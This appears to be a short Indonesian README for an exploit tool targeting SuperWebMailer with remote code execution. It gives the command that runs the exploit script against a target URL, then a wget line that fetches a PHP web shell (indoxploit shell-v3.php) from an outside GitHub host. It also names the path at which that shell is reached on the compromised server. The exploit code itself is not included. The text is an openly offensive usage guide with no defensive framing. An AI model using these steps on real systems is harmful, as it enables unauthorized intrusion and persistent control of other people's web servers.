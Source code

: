 # RCE_SuperWebMailer
Tools ini menggunakan Python3 untuk menjalankan jika belum menggunakan python versi 3 harap di install terlebih dahulu

# Cara Menggunakan
pip install requests <br>
python3 expploit.py -u http://target.com/swm/

# Upload Shell
wget https://raw.githubusercontent.com/linuxsec/indoxploit-shell/master/shell-v3.php

akses shell : http://target.com/swm/shell-v3.php

